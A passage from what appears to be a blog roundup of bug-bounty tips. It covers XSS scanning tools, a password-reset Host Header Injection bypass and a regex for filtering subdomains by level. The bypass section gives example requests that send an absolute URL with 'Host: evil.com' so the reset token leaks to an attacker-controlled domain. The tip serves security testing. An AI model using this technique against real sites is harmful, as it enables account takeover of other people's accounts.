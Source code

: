 -   [Psalm](https://psalm.dev/) – Free and open-source static analysis tool for identifying security problems in PHP applications with many advanced features and plugins for various PHP frameworks
-   [Dalfox](https://github.com/hahwul/dalfox) – Parameter analysis and XSS scanning tool written in Golang with many advanced features

Do you have some other favorite tool for XSS? Please share in the comment section!

## 5\. Password poisoning bypass to account takeover

By [@Debian\_Hunter](https://twitter.com/Debian_Hunter)  
Source: [link](https://twitter.com/Debian_Hunter/status/1321511316507353089)

This bug bounty tip demonstrates a bypass technique for password reset functionalities which can potentially result in ATO (account takeover).

Consider the following 3 requests:

(1) Normal request:

-   Request:  
    `POST /password-reset?user=123 HTTP/1.1   Host: target.com`
-   Link received:  
    `https://target.com/reset-link=1g2f3guy23g`

(2) Basic HHI (Host Header Injection):

-   Request:  
    `POST /password-reset?user=123 HTTP/1.1   Host: evil.com`
-   Link received:  
    `none   Error 404 - request blocked`

(3) Bypass technique:

-   Request:  
    `POST https://target.com/password-reset?user=123 HTTP/1.1   Host: evil.com`
-   Link received:  
    `https://evil.com/reset-link=1g2f3guy23g`

Notice that in bypass we have used absolute URL in the POST request. In such case the Host header should be completely ignored. However, some back-end systems still process it while the front-end don’t – simply an inconsistency.

If successful, this can lead to high severity bugs causing reset token leakage and consequently account takeover and privilege escalation. [Here](https://hackerone.com/reports/226659) is a real bug report describing the impact nicely in detail.

## 6\. Useful regex for subdomain level extraction

By [@imranparray101](https://twitter.com/imranparray101)  
Source: [link](https://twitter.com/imranparray101/status/1320951556410241024)

Higher level subdomains typically tend to be more vulnerable than lower level subdomains. Here is a tip on how to grep for a specific level of subdomains from a list of subdomains:

```bash
cat subdomains.txt | grep -P '^(?:[a-z0-9]+\.){MIN,MAX}[^.]*$'
```

